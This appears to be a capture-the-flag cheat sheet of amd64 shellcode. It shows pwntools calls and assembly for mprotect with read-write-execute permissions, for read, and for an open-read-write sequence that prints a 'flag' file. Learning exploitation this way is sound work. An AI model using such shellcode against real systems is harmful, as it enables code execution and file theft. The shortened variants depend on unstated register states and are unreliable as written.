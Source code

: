 [toc]



## mprotect

Function:

```c
int mprotect(void *addr, size_t len, int prot);
```

Pwntools:

```py
shellcraft.amd64.mprotect(0xdeadbeef, 0x1000, 7)
```

Assembly:

```
/* mprotect(addr=0xdeadbeef, length=0x1000, prot=7) */
mov edi, 0xdeadbeef
push 7
pop rdx
mov esi, 0x1010101 /* 4096 == 0x1000 */
xor esi, 0x1011101
/* call mprotect() */
push 9 /* mov eax, '\n' */
pop rax
inc eax
syscall
```

Shortened Assembly:

```
shl edi, 0xc
mov ax, 0xa
mov dx, 0x7
syscall
```

- `0xa` represents the syscall number for `mprotect`

- `0x7` is a common protection flag value, combining `PROT_READ (0x1)`, `PROT_WRITE (0x2)`, and `PROT_EXEC (0x4)`. 

Arguments:

- **Syscall number (rax)**: `0xa` (10 in decimal), which corresponds to `mprotect`.
- **First argument (rdi)**: Since `edi` was shifted 12 bits (0xc), this would be a modified, page-aligned memory address for `mprotect`.
- **Second argument (rsi)**: The shellcode doesn't modify `rsi`, so it holds a specific size or default value.
- **Third argument (rdx)**: `0x7`, setting the protection to read, write, and execute.



## Read

Function:

```c
ssize_t read(int fd, void *buf, size_t count);
```

Pwntools:

```py
shellcraft.amd64.read(0, 0xdeadbeef, 100)
```

Assembly:

```
/* call read(0, 0xdeadbeef, 0x64) */
xor eax, eax /* SYS_read */
xor edi, edi /* 0 */
push 0x64
pop rdx
mov esi, 0xdeadbeef
syscall
```

Shortened Assembly:

```
xchg eax, edx
xor eax, eax
mov edi, eax
mov esi, ecx
syscall
```

Arguments:

- **Syscall Number (eax)**: `xor eax, eax` sets `eax` to `0`, which is the syscall number for `read`.
- **File Descriptor (edi)**: By moving `eax` (which is `0`) into `edi`, the file descriptor is set to `0` (stdin).
- **Buffer Address (esi)**: `mov esi, ecx` likely sets up `esi` as a buffer address, which means `ecx` should contain the address where data should be read.



## ORW

Shortened Assembly:

```
/*   *(0xdeadbeef)=b'flag\x00'	 */
mov rax, 2
mov rdi, 0xdeadbeef
xor rsi, rsi
syscall
mov rdi, rax
mov rax, 0		; can be removed if returned fd=0
mov rsi, 0xdeadbabe
mov rdx, 100
syscall
mov rax, 1
mov rdi, 1
syscall
```

